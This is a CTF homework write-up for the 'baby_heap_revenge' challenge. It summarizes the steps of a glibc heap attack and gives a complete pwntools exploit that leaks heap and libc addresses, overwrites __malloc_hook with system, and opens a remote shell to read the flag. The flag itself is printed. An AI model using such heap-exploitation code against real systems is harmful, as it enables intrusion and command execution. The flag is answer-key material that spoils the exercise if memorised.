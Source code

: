 # HW5
## baby_heap_revenge 150
* 8 bytes overflow.
* `_int_free` in `sysmalloc` trick.
* Forge `top chunk` size.
* `malloc` a size larger than size of top chunk.
* Trigger `_int_free` in `sysmalloc`, got freed chunk.
* Create two smallbin chunk , and use house of force to leak `fd` and `bk` for leaking `heap` , `libc`.
* House of force force to `__malloc_hook`.
* Overwrite `__malloc_hook` with `system`.
* `malloc( size = address ["sh;"] )` -> `system( "sh;" )`.
```python
#!/usr/bin/env python
from pwn import *

# FLAG{YOUARENOTBABYATALL}

e , l = ELF('./baby_heap_revenge-1679ad2998791cc85a2e1651627a1d1304d76157') , ELF('./libc.so.6-14c22be9aa11316f89909e4237314e009da38883')


y = remote( 'csie.ctf.tw' , 10141 )


def alloc( size , data , yuawn = False ):
    y.sendafter( 'ice:' , '1' )
    y.sendafter( 'Size :' , str( size ) )
    if yuawn:
        sleep( 0.7 )
        y.sendline( 'cat /home/`whoami`/flag' )
        y.interactive()
    y.sendafter( 'Data :' , data )

def sho():
    y.sendafter( 'ice:' , '2' )



alloc( 0x400 , 'sh;' )
alloc( 0x400 , 'a' )
alloc( 0xf68 - 0x250 - 0xa00 , 'a' * ( 0xf68 - 0x250 - 0xa00 ) + p64( 0x4c1 ) ) # shrink top chunk size 0x4c1

alloc( 0x508 , 'a' * 0x508 ) # trigger sysmalloc _int_free

alloc( 0x400 , 'a' )
alloc( 0x400 , 'a' )
alloc( 0x408 , 'a' * 0x408 + p64( 0x2d1 ) ) # again

alloc( 0x308 , 'a' )
alloc( 0x210 , 'a' )

alloc( 0x108 , 'a' * 0x108 + p64( 0xffffffffffffffff ) ) # fake top chunk size for house of force

alloc( -136432 , 'a' ) # force it

alloc( 0x100 , 'A' * 0x10 )

sho()

y.recvuntil( 'A' * 0x10 )
heap = u64( y.recv(4).ljust( 8 , '\x00' ) ) - 0xf50
log.success( 'heap -> %s' % hex( heap ) )

alloc( 0x108 , 'a' * 0x108 + p64( 0xffffffffffffffff ) )

alloc( -560 , 'a' )

alloc( 0x100 , 'a' * 8 + p64( 0x91 ) ) # fix smallbin size

alloc( 0x88 , 'a' )

alloc( 0x88 , 'A' * 8 )

sho()
y.recvuntil( 'A' * 0x8 )
l.address += u64( y.recv(6).ljust( 8 , '\x00' ) ) - 0x3c4bf8
log.success( 'libc -> %s' % hex( l.address ) )

alloc( 0x18 , 'a' * 0x18 + p64( 0xffffffffffffffff ) )

top_ofs = 0x22070

log.info( 'nb -> ' + str( l.symbols['__malloc_hook'] - ( heap + top_ofs ) - 0x20  ) )

alloc( l.symbols['__malloc_hook'] - ( heap + top_ofs ) - 0x20 , 'a' ) # force to __malloc_hook


alloc( 0x777 , p64( l.symbols['system'] ) )

alloc( heap + 0x10 , 'yuawn' , yuawn = True ) # malloc( size = ["sh;"] ) -> system( "sh;" )
```